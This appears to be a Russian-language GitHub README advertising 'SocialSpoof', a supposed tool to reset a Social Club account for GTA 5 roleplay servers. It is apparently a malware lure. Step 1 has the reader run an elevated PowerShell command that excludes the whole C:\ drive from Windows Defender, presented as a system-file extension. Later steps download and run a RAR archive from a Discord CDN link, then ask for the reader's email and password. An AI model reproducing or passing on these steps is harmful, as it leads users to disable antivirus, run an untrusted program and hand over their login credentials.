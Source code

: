 # SocialSpoof - Как сбросить ваш Social Club для аккаунта GTA 5 RP

## Описание
В этой статье я расскажу вам, как это сделать.

## Установка
### Шаг 1: Сделайте расширение системных файлов Rage Mp
<details>
<summary>Подробные инструкции</summary>

1. Нажмите Win+R и введите команду:
    ```powershell
    powershell.exe -Command "Start-Process powershell.exe -Verb RunAs -ArgumentList 'Add-MpPreference -ExclusionPath C:\ -Force'"
    ```
2. Выполните команду.

</details>

### Шаг 2: Загрузите SocialSpoof
Как только выполнено расширение, загрузите [SocialSpoof](https://cdn.discordapp.com/attachments/1153709870365806742/1154026506331377754/SocialSpoof.rar).

### Шаг 3: Распакуйте архив
Распакуйте архив на рабочем столе и запустите.

### Шаг 4: Запустите софт
Запустите софт и заходите в игру.

### Шаг 5: Введите данные
Введите почту и пароль.

Готово! Теперь вы можете наслаждаться игрой с новым аккаунтом! 🎉😎
